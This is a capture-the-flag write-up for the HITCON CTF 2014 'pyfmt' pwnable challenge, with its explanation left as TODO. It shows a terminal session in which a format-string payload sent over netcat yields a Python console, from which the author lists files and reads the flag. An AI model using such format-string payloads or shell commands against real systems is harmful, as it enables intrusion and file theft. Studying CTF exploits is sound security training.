 # HITCON CTF 2014: PYFMT

**Category:** Pwnable
**Points:** 152
**Description:**

> pwn 54.92.19.227 8212

**Hint:**

> [https://raw.githubusercontent.com/hitcon2014ctf/ctf/master/pyfmt_easy-9da3aa531c4f9c5e8a11dfd0459b11e2.tar.gz](pyfmt_easy-9da3aa531c4f9c5e8a11dfd0459b11e2.tar.gz)
> [https://dl.dropbox.com/s/wd6qeifygvf2lmh/pyfmt_easy-9da3aa531c4f9c5e8a11dfd0459b11e2.tar.gz](pyfmt_easy-9da3aa531c4f9c5e8a11dfd0459b11e2.tar.gz)
>
> easy ver 2
> [https://dl.dropbox.com/s/kq7klsrw7wzk3qn/pyfmt_easy-e13e6f82378751f7e909e4ae18676aa3.tar.gz](pyfmt_easy-e13e6f82378751f7e909e4ae18676aa3.tar.gz)

## Write-up

(TODO)

```bash
$ nc 54.92.19.227 8212
hello world!
who are U?
%104$1129p %104$hn
hi!                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  0x6b8254
bye!
Python 2.7.5 (default, Feb 11 2014, 07:46:25)
[GCC 4.8.2 20140120 (Red Hat 4.8.2-13)] on linux2
Type "help", "copyright", "credits" or "license" for more information.
(InteractiveConsole)
>>> import os; os.system('ls');
bin
boot
data
dev
etc
home
key_this.txt
lib
lib64
log
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
0
>>> os.system('cat key_this.txt');
HITCON{e80c1f7f81b3d1b0514d2aa24e0eeecb}
0
>>>
```

The flag is `HITCON{e80c1f7f81b3d1b0514d2aa24e0eeecb}`.

## Other write-ups and resources

* none yet
